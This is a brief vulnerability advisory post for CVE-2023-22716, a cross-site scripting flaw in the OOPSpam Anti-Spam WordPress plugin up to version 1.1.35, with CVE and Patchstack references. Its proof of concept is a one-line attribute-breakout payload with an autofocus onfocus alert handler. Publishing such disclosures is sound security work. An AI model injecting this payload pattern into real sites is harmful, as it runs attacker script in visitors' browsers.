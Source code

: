 ```yaml
---
layout: post
title: CVE-2023-22716 - OOPSpam Anti-Spam Plugin <= 1.1.35 - Cross Site Scripting (XSS)
---
```


Description
============
OOPSpam Anti-Spam Plugin <= 1.1.35 This could allow a malicious actor to inject malicious scripts, such as redirects, advertisements, and other HTML payloads into your website which will be executed when guests visit your site.

Proof Of Concept
============
Payload

~~~
" onfocus=alert(/XSS/) autofocus="
~~~

References
============ 
-(https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22716)
-[Patchstack](https://patchstack.com/database/vulnerability/oopspam-anti-spam/wordpress-oopspam-anti-spam-plugin-1-1-35-cross-site-scripting-xss-vulnerability)



[Rio Darmawan](https://patchstack.com/database/researcher/0f0ce3de-fbab-4348-9729-a5ef92c74b3e)
